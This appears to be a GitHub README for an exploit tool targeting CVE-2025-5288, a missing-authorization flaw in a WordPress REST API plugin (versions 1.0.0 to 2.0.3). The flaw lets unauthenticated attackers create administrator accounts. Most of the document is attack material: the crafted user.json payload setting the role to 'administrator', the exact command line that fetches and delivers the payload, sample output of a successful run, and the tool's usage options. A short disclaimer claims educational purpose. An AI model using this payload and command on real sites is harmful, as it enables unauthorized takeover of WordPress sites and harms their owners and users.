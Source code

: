 # 🚨 REST API | Custom API Generator For Cross Platform And Import Export In WP 1.0.0 - 2.0.3 - Missing Authorization to Unauthenticated Privilege Escalation

## 📋 Description
The **REST API | Custom API Generator For Cross Platform And Import Export In WP** plugin for WordPress is vulnerable to **Privilege Escalation** due to a missing capability check on the `process_handler()` function in versions `1.0.0 to 2.0.3`.  
This allows **unauthenticated attackers** to send a specially crafted `user.json` file to an exposed endpoint and create a new **Administrator** account.

- **CVE:** CVE-2025-5288  
- **CVSS Score:** 9.8 (Critical)  
- **Published:** June 12, 2025  
- **Last Updated:** June 12, 2025  

---

## ⚙️ Script Explanation

### user.json Payload Format:

```json
[
  {
    "author_data": {
      "post_author": "Nxploited",
      "post_author_email": "NxploitBot@gmal.com",
      "post_author_role": "administrator"
    },
    "title": "Nxploited (Khaled_alenazi)",
    "content": "Nxploited (Khaled_alenazi)"
  }
]
```

---

## 🚀 Exploitation Flow:

```bash
python3 CVE-2025-5288.py -u http://192.168.100.74:888/wordpress/ -json http://192.168.100.74:888/user.json
```

### Sample Output:

```
[+] Target appears vulnerable (version: 2.0.3) - exploiting...

[*] Fetching JSON payload from: http://192.168.100.74:888/user.json
[+] JSON content loaded successfully:

    [1] {
    "author_data": {
        "post_author": "Nxploited",
        "post_author_email": "NxploitBot@gmal.com",
        "post_author_role": "administrator"
    },
    "title": "Nxploited (Khaled_alenazi)",
    "content": "Nxploited (Khaled_alenazi)"
}

[*] Launching exploitation...

[+] Exploit delivered successfully.

[+] Payload Sent:
[
    {
        "author_data": {
            "post_author": "Nxploited",
            "post_author_email": "NxploitBot@gmal.com",
            "post_author_role": "administrator"
        },
        "title": "Nxploited (Khaled_alenazi)",
        "content": "Nxploited (Khaled_alenazi)"
    }
]
```

---

## 🧰 Usage

```
usage: CVE-2025-5288.py [-h] -u URL -json URL_JSON [--proxy PROXY] [--timeout TIMEOUT] [--no-verify] [--no-sleep] [--debug]

Unauthenticated Privilege Escalation - by Khaled Alenazi (Nxploited)

options:
  -h, --help            show this help message and exit
  -u, --url URL         Base URL of WordPress site (e.g., http://target/wp/)
  -json, --url_json URL_JSON
                        URL to hosted R.json payload
  --proxy PROXY         Proxy URL (e.g., http://127.0.0.1:8080)
  --timeout TIMEOUT     HTTP timeout in seconds (default: 10)
  --no-verify           Disable SSL certificate verification (NOT recommended!)
  --no-sleep            Disable sleep delays for faster execution
  --debug               Enable debug output
                                               
```

---

## ⚠️ Disclaimer
This tool is for educational and authorized security research purposes only. Unauthorized access to systems without permission is illegal.

---

*By: Nxploited (Khaled_alenazi)*

